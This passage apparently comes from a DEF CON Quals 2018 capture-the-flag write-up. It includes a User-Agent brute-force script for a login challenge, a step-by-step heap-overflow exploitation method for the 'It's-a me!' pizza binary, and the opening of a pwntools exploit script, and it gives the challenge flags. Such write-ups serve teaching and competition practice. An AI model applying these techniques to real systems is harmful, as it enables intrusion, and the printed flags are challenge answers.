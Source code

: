 ```python
#!/usr/bin/env python3
# Python 3.6.5
import requests
from itertools import product

s = requests.session()                                                                                                                  
for i, j in product(range(0, 6), range(0, 51)):
    agent = f'Mozilla/{i}.0 (Windows NT 10.0; WOW64; rv:{j}.0) Gecko/20100101 Firefox/{j}.0'
    headers={'User-Agent': agent}
    r = s.post('http://0da57cd5.quals2018.oooverflow.io/login.php', data=dict(username='admin@oooverflow.io', password='admin'), headers=headers)
    print(r.text, i, j)
```

Surprisingly, we get the flag when the user agent is `Mozilla/5.0 (Windows NT 10.0; WOW64; rv:42.0) Gecko/20100101 Firefox/42.0`.

Flag: `OOO{0ld@dm1nbr0wser1sth30nlyw@y}`



## Appetizers

### It's-a me!

* When odering pizza, Mario checks whether the pineapple Emoji Unicode (\xF0\x9F\x8D\x8D) exists for each ingridient, so we can split the Unicode into two ingridients ('\xF0\x90\xF0\x9F' and '\x8D\x8D') to bypass Mario's check
* After cooking a pizza with fake pinapple (’\xF0\x90\xF0\x9F’ and ‘\x8D\x8D’), it will trigger a heap overflow vulnerability.
* By ordering and cooking some pizzas between the ordering and cooking of the fake pinapple pizza, we can make the heap overflow overwrite the pointer to the ingredient. Since at first we don't have any addresses and the read function appends null byte at the end, we make it so that the pointer to the ingredient with LSB overflowed by 0x00 points to a heap address. Cook the pizza and we leak heap address.
* We use the same way to leak libc address, but since now we have heap address, we don't have to partial overwrite the pointer to the ingridient with null byte anymore.
* The way to hijack control flow is similar too. There is a pointer to a function pointer on each pizza cooked, which is call when they are admired. We overflow that with one_gadget.
* `OOO{cr1m1n4l5_5h0uld_n07_b3_r3w4rd3d_w17h_fl4gs}`

```python
#!/usr/bin/env python2

from pwn import *
from IPython import embed
from subprocess import check_output
import re

context.arch = 'amd64'

r = remote('83b1db91.quals2018.oooverflow.io', 31337)

def PoW():
    r.recvuntil('Challenge: ')
    x = r.recvline().strip()
    r.recvuntil('n: ')
    xx = r.recvline().strip()
    x = subprocess.check_output(['./pow.py', x, xx])
    xx = re.findall('Solution: (.*) ->', x)[0]
    r.sendlineafter('Solution:', xx)

PoW()

```